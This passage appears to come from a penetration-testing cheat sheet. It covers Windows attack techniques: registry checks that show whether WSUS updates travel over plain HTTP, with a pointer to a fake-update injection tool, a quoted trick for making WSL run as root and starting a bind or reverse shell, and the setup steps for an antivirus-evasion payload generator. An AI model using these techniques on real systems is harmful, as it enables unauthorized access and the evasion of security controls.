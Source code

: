 

## Windows Internals

### Is WSUS (Windows Server Update Services) vulnerable ?

You can compromise the system if the updates are not requested using httpS but http.

Check if HTTPS is used:
```bash
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
```

And check if WSUS is used:
```bash
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
```
If it's equals to 1 then it's exploitable.

Use: [Wsuxploit](https://github.com/pimps/wsuxploit) - This is a MiTM weaponized exploit script to inject 'fake' updates into non-SSL WSUS traffic.

### Windows Subsystem for Linux (WSL)

Technique borrowed from [Warlockobama's tweet](https://twitter.com/Warlockobama/status/1067890915753132032)

> With root privileges Windows  Subsystem for Linux (WSL)  allows users to create a bind shell on any port (no elevation needed). Don't know the root password? No problem just set the default user to root W/ <distro>.exe --default-user root. Now start your bind shell or reverse.

```powershell
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

Binary `bash.exe` can also be found in `C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`

Alternatively you can explore the `WSL` filesystem in the folder `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\`

### UAC Buypass

### AV Buypass

- [GreatSCT](https://github.com/GreatSCT/GreatSCT) (gen metasploit payloads that bypass common anti-virus solutions and application whitelisting solutions)

  - ```bash
    git clone https://github.com/GreatSCT/GreatSCT
    cd Gre*
    cd setup
    ./setup.sh
    # y
    ```
